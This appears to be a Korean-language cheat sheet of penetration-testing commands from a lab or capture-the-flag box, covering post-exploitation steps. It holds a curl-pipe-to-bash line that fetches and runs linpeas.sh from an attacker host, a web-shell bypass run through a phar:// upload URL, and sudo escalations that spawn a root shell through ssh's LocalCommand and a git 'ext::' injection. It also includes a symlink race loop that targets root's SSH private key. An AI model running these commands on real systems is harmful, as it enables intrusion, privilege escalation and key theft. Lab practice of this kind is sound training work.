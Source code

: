 ### 파일 다운 & 실행
```
curl http://10.10.14.5:3000/linpeas.sh | bash
```

### 업로드 웹 쉘 실행
```
python dfunc-bypasser.py --url 'http://dev.pinocure.com/?page=phar://uploads/1f8dadc0c349cde81b339f14beb0050c/info.txt/info'
```


<br>


---

## 권한상승

### sudo
```
sudo -l

sudo /usr/bin/ssh -v -o PermitLocalCommand=yes -o 'LocalCommand=/bin/bash' pinocure@127.0.0.1
sudo /usr/bin/systemctl status pinocure.service
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

### PuttyGen
```
puttygen ssh_key -O private-openssh -o id_rsa
```

### while 반복문
```
# key.png가 root인증서 가리키도록 무한 반복 실행
# sf : 심볼릭 링크를 만들고 이미 해당 이름의 링크나 파일이 존재하면 강제로 덮어쓰기
while true;do ln -sf /root/.ssh/id_rsa /var/quarantined/key.png;done
```

### getcap
```
getcap /opt/scanner/scanner
```

### ss, ps, pinocure
```
# ss
ss -tlpn
```
```
# ps
ps aux
```
```
# find
find / -name pinocure.service 2>/dev/null
```
